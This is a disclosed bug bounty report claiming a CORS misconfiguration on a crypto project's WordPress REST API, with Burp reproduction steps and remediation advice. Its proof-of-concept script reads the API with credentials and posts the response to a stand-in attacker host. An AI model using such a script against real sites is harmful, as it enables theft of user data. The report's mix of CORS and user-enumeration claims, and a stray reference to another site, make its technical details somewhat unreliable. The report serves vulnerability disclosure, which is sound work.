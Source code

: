 # CORS Misconfiguration Leads to Sensitive Exposure on  Sifchain main domain

## Report Details
- **Report ID**: 1188684
- **URL**: https://hackerone.com/reports/1188684
- **State**: Closed
- **Severity**: none
- **Submitted**: 2021-05-07T22:05:28.249Z
- **Disclosed**: 2021-06-10T15:01:24.132Z

## Reporter
- **Username**: emptymahbob
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: sifchain

## Vulnerability Information
## Summary:
Hello,
I know that isn't in the Scope But this The Only Way I can Report With And It Belongs to the Main Domain.

==At first please see all those references given below:==

##References:
https://hackerone.com/reports/768151
https://hackerone.com/reports/1167869
https://hackerone.com/reports/1170185

##Details:
It's possible to get information about the users registered (such as id, name, login name, etc.) without authentication in
WordPress via API.

## Steps To Reproduce:
+ Intercept this URL https://sifchain.finance/wp-json/ to Burp
+ Then add `Origin: http://bing.com` in request & forward the request
+ In response, you will able to see `Access-Control-Allow-Origin: http://bing.com`

> Simple Exploit given below:

```
<html>
<body>
<button type='button' onclick='cors()'>CORS</button>
<p id='demo'></p>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
var a = this.responseText; // Sensitive data from niche.co about user account
document.getElementById("demo").innerHTML = a;
xhttp.open("POST", "http://bing.com", true);// Sending that data to Attacker's website
xhttp.withCredentials = true;
console.log(a);
xhttp.send("data="+a);
}
};
xhttp.open("GET", "https://sifchain.finance/wp-json/", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
</body>
</html>
```

==For better understanding please watch the POC Video.==

#POC Video:

{F1293211}


#Remediation:
There are 2 ways that it's possible to fix this problem.
==FIX 1== - It's possible to remove this access for anyone by changing the source code where when someone requests the Rest API and the server sends a 404 (Not Found) message for the user who made the request.

Reference: https://github.com/WP-API/WP-API/issues/2338

==FIX 2== - It's also possible to create a rewrite rule on .htaccess (if the webserver it's Apache) to redirect any request that contains restricted (eg.: "^.restroute=/wp/") to a Not Found (404) or a Default Page.

Regards,
@emptymahbob

## Impact

It's possible to get all the users registered on the system and create a brute force directed to these users.
Cross Misconfiguration -Leakage Sensitive Information.

## Attachments
- sifchain.finance_CORS.mp4
